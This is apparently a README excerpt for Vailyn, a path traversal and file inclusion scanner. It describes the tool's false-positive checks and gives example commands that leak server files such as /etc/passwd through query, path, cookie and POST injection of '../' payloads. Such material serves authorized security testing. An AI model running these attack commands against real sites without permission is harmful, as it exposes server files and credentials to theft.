 ### False Positive prevention

To distinguish real results from false positives, Vailyn does the following checks:
* check the status code of the response
* check if the response is identical to one taken before attack start: this is useful e.g, when the server returns 200, but ignores the payload input or returns a default page if the file is not found.
* similar to #2, perform an additional check for query GET parameter handling (useful when server returns error that a needed parameter is missing)
* check for empty responses
* check if common error signatures are in the response content
* check if the payload is contained in the response: this is an additional check for the case the server responds 200 for non-existing files, and reflects the payload in a message (like ../../secret not found)
* check if the entire response is contained in the init check response: useful when the server has a default include which disappears in case of 404
* for `-a 2`, perform an additional check if the response content matches the content from the server root URL
* REGEX check for `/etc/passwd` if using that as lookup file

### Examples

* Simple Query attack, leaking files in Phase 2:
`$ Vailyn -v "http://site.com/download.php" -a 1 -p2 leak dicts/files dicts/dirs -p file` --> `http://site.com/download.php?file=../INJECT`

* Query attack, but I know a file `file.php` exists on exactly 2 levels above the inclusion point:
`$ Vailyn -v "http://site.com/download.php" -a 1 -p2 leak dicts/files dicts/dirs -p file -i file.php -d 2 X X -P`
This will shorten the duration of Phase 1 very much, since its a targeted attack.

* Simple Path attack:
`$ Vailyn -v "http://site.com/" -a 2 -p2 leak dicts/files dicts/dirs` --> `http://site.com/../INJECT`

* Path attack, but I need query parameters and tag:
`$ Vailyn -v "http://site.com/" -a 2 -p2 leak dicts/files dicts/dirs -Pi "?token=X#title"` --> `http://site.com/../INJECT?token=X#title`

* Simple Cookie attack:
`$ Vailyn -v "http://site.com/cookiemonster.php" -a 3 -p2 leak dicts/files dicts/dirs`
Will fetch cookies and you can select cookie you want to poison

* POST Plain Attack:
`$ Vailyn -v "http://site.com/download.php" -a 4 -p2 leak dicts/files dicts/dirs -p "DATA1=xx&DATA2=INJECT"`
will infect DATA2 with the payload

* POST JSON Attack:
`$ Vailyn -v "http://site.com/download.php" -a 5 -p2 leak dicts/files dicts/dirs -p '{"file": "INJECT"}'`

* Attack, but target is behind login screen:
`$ Vailyn -v "http://site.com/" -a 1 -p2 leak dicts/files dicts/dirs -c "sessionid=foobar"`
